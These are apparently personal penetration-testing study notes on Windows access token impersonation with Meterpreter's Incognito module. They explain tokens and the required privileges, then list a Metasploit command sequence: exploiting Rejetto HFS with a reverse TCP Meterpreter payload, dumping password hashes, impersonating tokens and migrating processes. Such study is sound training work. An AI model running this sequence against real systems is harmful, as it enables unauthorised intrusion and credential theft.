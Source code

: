 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Token Impersonation with Incognito

- Windows Access Token are core elements of the authentication process on Windows. They are created by LSASS.
- It is responsible for identifying and describing the security context of a process or thread running on a system
- They are generated by the winlogon.exe process every time a user authenticates successfully and includes the identity and privileges of the user account associated

- WAT are categorized based on the varying security levels assigned to them
	- Impersonate-level, can be used locally
	- Delegate-level, can be used on the network

- The following privileges are required for a successful impersonation attack:
	- SeAssignPrimaryToken
	- SeCreateToken
	- SeImpersonatePrivilege

- Incogito is a buit-in meterpreter used to impersonate user tokens after successful exploitation

## Demonstration

```bash
> db_nmap -sV <ip>
> use exploit/windows/http/rejetto_hfs_exec
> set payload windows/x64/meterpreter/reverse_tcp
# verify TARGETURI
> run
m> sysinfo
# good that arch is x64
m> getuid
m> getprivs
m> hashdump
m> load incognito
m> list_tokens -u
m> impersonate_token "<TOKEN\name>"
m> getuid
m> ps
m> migrate <explorer.exe>
m> hashdump
```
